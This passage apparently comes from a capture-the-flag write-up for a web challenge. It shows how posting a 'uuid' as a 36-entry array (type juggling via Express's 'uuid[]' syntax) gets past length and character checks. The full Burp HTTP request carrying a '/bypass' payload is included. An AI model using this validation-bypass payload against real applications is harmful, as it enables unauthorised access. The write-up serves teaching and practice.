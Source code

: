 This means we can POST a ``uuid` that is not just a simple string.

If, instead, we make it an array of strings, then we have some room to maneuver.

This technique is called `type juggling`.

To get past:

```javascript
    if (uuid.length != 36) {
```

we can simply make the array have 36 entries.

To get past:

```javascript
    for (const c of uuid) {
        if (!/[-a-f0-9]/.test(c)) {
```

we just need to be sure that each of the 36 entries has at least **one** character that matches the pattern.

Using Burp's Repeater function, we setup this payload:

```
POST / HTTP/1.1
Host: qu-flag.lac.tf
Sec-Ch-Ua: "Not A(Brand";v="24", "Chromium";v="110"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 368

uuid[]=990c5a07-3501-4aed-b271-eb6b09f67bba/bypass?z=&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2&uuid[]=2
```

Notice we set the `Content-Type` request header to the normal value an HTML form would set when POSTing.

The `uuid[]` syntax in the payload is just syntactic sugar supported by the express library.  It ends up building an array whose entries consist of the individual `uuid[]` values.
